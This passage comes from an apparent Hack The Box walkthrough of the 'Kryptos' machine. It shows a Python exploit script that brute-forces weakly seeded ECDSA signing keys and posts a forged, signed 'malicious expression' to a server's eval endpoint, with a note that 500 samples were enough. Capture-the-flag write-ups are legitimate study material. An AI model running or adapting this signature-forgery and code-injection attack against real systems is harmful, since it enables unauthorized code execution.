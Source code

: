 ```python
# Generate n not-so-secure random numbers
def generate_randoms(n):
  randoms = []
  for _ in range(n):
    seed = random.getrandbits(128)
    rand = secure_rng(seed) + 1
    randoms.append(rand)
  return randoms

# generate signing keys
def generate_keys(x):
  keys = []
  for _ in x:
    sk = SigningKey.from_secret_exponent(_, curve=NIST384p)
    keys.append(sk)
  return keys

# generate not-so-secure random numbers
n = int(sys.argv[1])
print("[+] Generating %d not-so-secure random numbers" % n)
random_numbers = generate_randoms(n)
unique_numbers = list(set(random_numbers))
print("[+] We got %d unique numbers" % len(unique_numbers))

# generate signing keys
print("[+] Generating signing keys from unique numbers")
keys = generate_keys(unique_numbers)

# Here goes nothing...
expr = sys.argv[2] # change this to a malicious expression
print("[+] Expression: %s" % expr)

for key in keys:
  json = {'expr': expr, "sig": sign(key, str.encode(expr)).decode()}
  headers = {'Content-Type': 'application/json'}
  r = requests.post('http://127.0.0.1:81/eval', json=json, headers=headers)

  if "Bad" not in r.text and "Error" not in r.text:
    print (r.text)
    exit()
```

During my experiment, I found that a sample size of 500 generates enough signing key collisions that will eventually create a valid signature to fool the server to evaluate my expression.

<a class="image-popup">
![55d50510.png](/assets/images/posts/kryptos-htb-walkthrough/55d50510.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/183
[2]: https://www.hackthebox.eu/home/users/profile/2571
[3]: https://www.hackthebox.eu/home/users/profile/21927
[4]: https://www.hackthebox.eu/